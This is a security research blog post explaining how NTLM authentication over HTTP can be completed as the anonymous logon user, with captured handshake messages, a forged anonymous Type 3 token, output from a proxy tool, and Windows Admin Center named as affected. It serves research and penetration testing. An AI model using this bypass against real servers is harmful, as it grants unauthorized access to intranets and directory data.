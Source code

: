 +++
title = "Bypassing NTLM auth over HTTP"
description = "Exploring the so called NT ANONYMOUS_LOGON user through HTTP endpoints"
tags = [
"howto",
"research",
"ntlm",
"web",
]
date = "2022-03-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"ntlm",
"howto",
"research",
"anonymous",
]
image = "cover.png"

+++


Exploring the so-called NTLM ANONYMOUS_LOGON user through HTTP endpoints.
<!--more-->


# Some background

Through the years NTLM authentication has been used in various protocols as a convenient way
to authenticate on a Windows network :

- SMB usually for file sharing
- RDP 
- NNS an "authenticated" TCP stack for .NET applications
- HTTP


The NTLM authentication usually takes place in 3 steps :

```text
CLIENT Sends a negotiation message --------------------> SERVER   
CLIENT <-------------------- A challenge is given by the SERVER
CLIENT Sends a challenge response (creds) -------------> SERVER         
```

NTLM versions (1/2) and various negotiation flags will determine how the authentication is *"encrypted"* between
the server and the client.



Btw [http://davenport.sourceforge.net/ntlm.html]([http://davenport.sourceforge.net/ntlm.html]) is a must-read if you're getting started with this protocol !

# NTLM over HTTP

In this article, we'll turn our attention to its usage over the HTTP protocol.

If you ever accessed your company's intranet after logging in with your workstation without being asked for credentials, 
chances are NTLM was used in the background to authenticate to the remote webserver.

![Home](/ntlm_http/intra_example.png)

NTLM being a connection oriented protocol, HTTP keep-alive is used to keep the user authenticated through the same connection.

### Negotiation over HTTP
Let's look at how the protocol is actually working over the wire :

The client sends :
```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
```

The reply from the server indicates a `401 Unauthorized` but lets us know that NTLM authentication is available
through the `WWW-Authenticate` header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
WWW-Authenticate: NTLM
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

The client will then initiate a negotiation, over the same connection, using the `Authorization` header with the
`NTLM` prefix.

The base64 encoded string is a [Type 1 message](http://davenport.sourceforge.net/ntlm.html#theType1Message) letting the server know the client's capabilities :

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAABAAAAMYCI4AAAAAAoAAAAAAAAACgAAAAAAAAAAAAAAA==
```

### Server challenge over HTTP

The server still replies with a `401 Unauthorized` but this time provides a [Type 2 message](http://davenport.sourceforge.net/ntlm.html#theType2Message) in the `WWW-Authenticate`
header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
Server: Apache
WWW-Authenticate: NTLM TlRMTVNTUAACAAAADAAMADgAAAA1gonilM550+1I+dYAAAAAAAAAAJIAkgBEAAAACgA5OAAAAA9EAE8ATQBBAEkATgACAAwARABPAE0AQQBJAE4AAQAMAEEAUABQAFMAMQA1AAQAGABkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAADACYAQQBQAFAAUwAxADUALgBkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAAFABgAZABvAG0AYQBpAG4ALgBsAG8AYwBhAGwABwAIAKFXn425d9gBAAAAAA==
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

This header provides multiple information about the remote server, including it's operating system, DNS names, and which Domain it belongs to.

[Internal Information Disclosure using Hidden NTLM Authentication](https://medium.com/swlh/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)
is a great read an often used by bug-hunters to find and disclose information about their target.

At this point, all HTTP clients gives you the choice to input a username and password, however, none of them are mentionning another
connection method.

Now let's think about this for a second :

- We know SMB can use NTLM
- We know SMB has an "Anonymous" feature

### Challenge response and auth over HTTP

Reading carefully [Microsoft documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4) about NTLM 
reveals an interesting bit of information that's usually NOT implemented by NTLM clients :

![Home](/ntlm_http/MS_NOTE_ANON.png)

Using Golang as a framework, we were able to implement the missing feature in an already existing NTLM library :

![Home](/ntlm_http/godiff.png)

Kudos to [@Bodgit](https://github.com/bodgit) for creating such a clean library !

#### Creating a client supporting Anonymous authentication

While modifying a browser for this particular case could be interesting, we instead decided to write a [proxy](https://github.com/LeakIX/NTLMAnonProxy) handling
the anonymous authentication workflow over HTTP :

```shell
$ ./NTLMAnonProxy-linux-amd64 127.0.0.1 9999
2022/06/04 04:18:06 Starting NTLM HTTP proxy on 127.0.0.1:9999
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Intercepted request
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Proposing NTLM, forcing ANONYMOUS auth
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Received NTLM challenge
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Sent NTLM AUTH
```

#### Checking the results

We know continue our request process over the same connection, and instead of providing a username and password, we implement
the anonymous authentication.

This has the effect of requesting Windows to authenticate as `ANONYMOUS LOGON/NT AUTHORITY`.

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAADAAAAAQABAEgAAAAAAAAASQAAAAAAAABIAAAAAAAAAEgAAAAAAAAASAAAABAAEABJAAAANYKJ4AAAAAAAAAAAAEkIUrOKi10Sk8ki/EV6PpA=
```

#### The application 

What will happen next depends on the application using NTLM as authentication source.

If the application is configured to accept any login, `ANONYMOUS LOGON/NT AUTHORITY` will be considered as valid
authentication and various privileges can be granted to the end-user :

```http request
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2022 02:19:43 GMT
X-UA-Compatible: IE=edge
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: deny
Content-Length: 6901
Content-Type: text/html; charset=ISO-8859-1
```

And in this case we are indeed allowed access to the application (an intranet) as `ANONYMOUS LOGON/NT AUTHORITY`.


## Affected softwares

Various software are actually affected by this flaw.

One of the surprise we found was the **Windows Admin Center**, a piece of software used to administer Domains and
cluster of the web :

![Home](/ntlm_http/wma-auth1.png)

As it can be seen here, requests to Active Directory can be made, and all kinds of information can be retrieved through the API :

![Home](/ntlm_http/wma-auth2.png)

While we did notice some **Powershell endpoints** exposed, however Windows UAC acts as a last protection and requests a confirmation on
the local machine.

This flaw we rediscovered was in fact what we believe to be `CVE-2021-27066` has been fixed with a `403` page after
anonymous authentication.

Plenty of servers are still online with a older versions, and pen-testing your next LAN should definitely include this technique !

## Other protocols

Here we explored HTTP as we couldn't find any client allowing for such authentication and suspected it would yield results.

[NNS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nns/aaa2adb8-34a0-461c-941e-fca1319c5a50) is another protocol often used by .NET applications and was in fact the source of the last [Veeam critical RCE vulnerability](https://twitter.com/ptswarm/status/1503360681978077185).

We will continue exploring other protocols for the same mis-configuration !
